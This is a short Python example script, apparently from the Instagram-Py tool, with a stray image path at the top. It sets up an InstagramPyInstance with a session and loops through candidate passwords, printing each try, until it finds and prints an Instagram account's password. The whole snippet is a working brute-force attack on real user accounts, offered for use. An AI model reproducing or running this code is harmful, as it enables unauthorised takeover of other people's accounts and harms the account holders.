 '''
 Defining @param cli = None will make Instagram-Py run silently so you
 can you use your own interface if you like.
 or if you want to use the official interface then declare like this

 instagrampy = InstagramPyInstance(cli = cli , session = session)

'''

instagrampy = InstagramPyInstance(cli = None ,session = session)
while not instagrampy.PasswordFound():
       print('Trying... '+session.CurrentPassword())
       instagrampy.TryPassword()

if instagrampy.PasswordFound():
       print('Password Found: '+session.CurrentPassword())

exit(0)

